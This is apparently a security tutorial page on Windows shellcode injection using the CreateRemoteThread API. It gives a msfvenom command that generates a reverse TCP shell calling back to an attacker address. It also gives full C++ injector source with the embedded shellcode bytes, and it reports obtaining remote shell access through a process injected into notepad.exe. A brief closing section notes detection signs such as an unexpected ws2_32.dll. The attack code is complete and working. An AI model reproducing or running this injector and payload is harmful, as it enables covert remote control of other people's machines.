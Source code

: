 ```yaml
---
description: Shellcode Injection using CreateRemoteThread API
---
```


# Shellcode Injection

Code Injection is a process to inject code into another running process.

In this article, We are gonna focus on injection shellcode using CreateRemoteThread API.

First off, Let's use Metasploit to generate our malicious shellcode. It's a reverse tcp shell.

{% code overflow="wrap" %}
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.3 LPORT=3333 -f c -b \x00\x0a\x0d
```
{% endcode %}

<div data-full-width="false">

<figure><img src="../../.gitbook/assets/msfvenom_Shellcode.png" alt=""><figcaption></figcaption></figure>

</div>

Now our C++ code to inject and execute this shellcode into a process:

* First, we need to open our target process, using `OpenProcess` API with the parameter `PROCESS_ALL_ACCESS` which gain all possible access rights for a process object.
* Then we will use `VirtualAllocEx`  API, which allocates a region of memory within the virtual address space of a target process equal to our size of shellcode. We use the M`EM_RESERVE and MEM_COMMIT` parameters for memory allocation type and `PAGE_EXECUTE_READWRITE` for memory protection of the pages.
* Write the shellcode data to the allocated memory area in the target process using the `WriteProcessMemory` API.
* Lastly, create a new thread in the virtual address space of the target process with the `CreateRemoteThread` API to execute the injected shellcode.

{% code title="ShellCodeInj.cpp" fullWidth="false" %}
```

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>



void printError(const char* error)
{
	printf("%s is failing. Error code: 0x%x\n\n", error, GetLastError());
}



int main(int argc, char *argv[])
{
	//msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.3 LPORT=3333 -f c -b \x00\x0a\x0d
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\x47\xdd\xc8\xf6\xf5\xe1\xd4\x3a\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xbb\x95\x4b"
		"\x12\x05\x09\x14\x3a\x47\xdd\x89\xa7\xb4\xb1\x86\x6b\x11"
		"\x95\xf9\x24\x90\xa9\x5f\x68\x27\x95\x43\xa4\xed\xa9\x5f"
		"\x68\x67\x95\x43\x84\xa5\xa9\xdb\x8d\x0d\x97\x85\xc7\x3c"
		"\xa9\xe5\xfa\xeb\xe1\xa9\x8a\xf7\xcd\xf4\x7b\x86\x14\xc5"
		"\xb7\xf4\x20\x36\xd7\x15\x9c\x99\xbe\x7e\xb3\xf4\xb1\x05"
		"\xe1\x80\xf7\x25\x6a\x54\xb2\x47\xdd\xc8\xbe\x70\x21\xa0"
		"\x5d\x0f\xdc\x18\xa6\x7e\xa9\xcc\x7e\xcc\x9d\xe8\xbf\xf4"
		"\x31\x37\x6c\x0f\x22\x01\xb7\x7e\xd5\x5c\x72\x46\x0b\x85"
		"\xc7\x3c\xa9\xe5\xfa\xeb\x9c\x09\x3f\xf8\xa0\xd5\xfb\x7f"
		"\x3d\xbd\x07\xb9\xe2\x98\x1e\x4f\x98\xf1\x27\x80\x39\x8c"
		"\x7e\xcc\x9d\xec\xbf\xf4\x31\xb2\x7b\xcc\xd1\x80\xb2\x7e"
		"\xa1\xc8\x73\x46\x0d\x89\x7d\xf1\x69\x9c\x3b\x97\x9c\x90"
		"\xb7\xad\xbf\x8d\x60\x06\x85\x89\xaf\xb4\xbb\x9c\xb9\xab"
		"\xfd\x89\xa4\x0a\x01\x8c\x7b\x1e\x87\x80\x7d\xe7\x08\x83"
		"\xc5\xb8\x22\x95\xbf\x4b\x96\xa7\x08\x18\xee\xfa\xf6\xf5"
		"\xa0\x82\x73\xce\x3b\x80\x77\x19\x41\xd5\x3a\x47\x94\x41"
		"\x13\xbc\x5d\xd6\x3a\x4a\xd8\xc2\xf6\xf5\xe2\x95\x6e\x0e"
		"\x54\x2c\xba\x7c\x10\x95\x80\x0b\xaa\xee\xf1\x0a\x34\x98"
		"\xb3\xad\xb5\xc9\xf7\xf5\xe1\x8d\x7b\xfd\xf4\x48\x9d\xf5"
		"\x1e\x01\x6a\x17\x90\xf9\x3f\xb8\xd0\x14\x72\xb8\x1d\x80"
		"\x7f\x37\xa9\x2b\xfa\x0f\x54\x09\xb7\x4f\x0b\xdb\xe5\xa7"
		"\x22\x1d\xbe\x7c\x26\xbe\x2a\x06\x85\x84\x7f\x17\xa9\x5d"
		"\xc3\x06\x67\x51\x53\x81\x80\x2b\xef\x0f\x5c\x0c\xb6\xf7"
		"\xe1\xd4\x73\xff\xbe\xa5\x92\xf5\xe1\xd4\x3a\x47\x9c\x98"
		"\xb7\xa5\xa9\x5d\xd8\x10\x8a\x9f\xbb\xc4\x21\xbe\x37\x1e"
		"\x9c\x98\x14\x09\x87\x13\x7e\x63\x89\xc9\xf7\xbd\x6c\x90"
		"\x1e\x5f\x1b\xc8\x9e\xbd\x68\x32\x6c\x17\x9c\x98\xb7\xa5"
		"\xa0\x84\x73\xb8\x1d\x89\xa6\xbc\x1e\x1c\x77\xce\x1c\x84"
		"\x7f\x34\xa0\x6e\x43\x8b\xe2\x4e\x09\x20\xa9\xe5\xe8\x0f"
		"\x22\x02\x7d\xfb\xa0\x6e\x32\xc0\xc0\xa8\x09\x20\x5a\x24"
		"\x8f\xe5\x8b\x89\x4c\x53\x74\x69\xa7\xb8\x08\x80\x75\x31"
		"\xc9\xe8\x3c\x3b\xd7\x48\x0d\x15\x94\xd1\x81\x00\xce\xba"
		"\x99\x9f\xe1\x8d\x7b\xce\x07\x37\x23\xf5\xe1\xd4\x3a";
		

	printf("Injecting to PID %i", atoi(argv[1]));

	HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	if (processHandle == INVALID_HANDLE_VALUE)
	{
		printError("OpenProcess");
		return 0;
	}

	PVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	if (!remoteBuffer)
	{
		printError("VirtualAlllocEx");
		CloseHandle(processHandle);
		return 0;
	}

	if (!WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL))
	{
		printError("WriteProcessMemory");
		CloseHandle(processHandle);
		return 0;
	}
	
	HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	if (!remoteThread)
	{
		printError("CreateRemoteThread");
		CloseHandle(processHandle);
		return 0;
	}

	CloseHandle(processHandle);



	return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/ShellCodeInj.exe" %}

Then, we will run our exe with the process ID in which we want to enject our shellcode. For this scenario let's take the `notepad.exe`:

<figure><img src="../../.gitbook/assets/Shellcode_Injection.png" alt=""><figcaption></figcaption></figure>

We can see that the process ID of `notepad.exe` is `6392`. Now, on running our executable.

`ShellcodeInj.exe 6392`

<figure><img src="../../.gitbook/assets/Shellcode_Injection_2 (1).png" alt=""><figcaption></figcaption></figure>

We received the reverse shell on our Netcat listener and have remote access to our target system.

We can see `ShellcodeInj.exe` created a new process `cmd.exe` under `notepad.exe`

Upon further analysis of notepad.exe, we can see the `ws2_32.dll` module loaded in the module section, which is typically not loaded under normal circumstances for notepad. This module handles socket management, indicating potential abnormal activity within the process.

<figure><img src="../../.gitbook/assets/modules (1).png" alt=""><figcaption></figcaption></figure>

Also on checking the `memory` tab, we can see, the `ws2_32.dll` loaded, and having the read and execute permission set for it.&#x20;

<figure><img src="../../.gitbook/assets/memory.png" alt=""><figcaption></figcaption></figure>

Hene, we successfully injected the shellcode in a process.
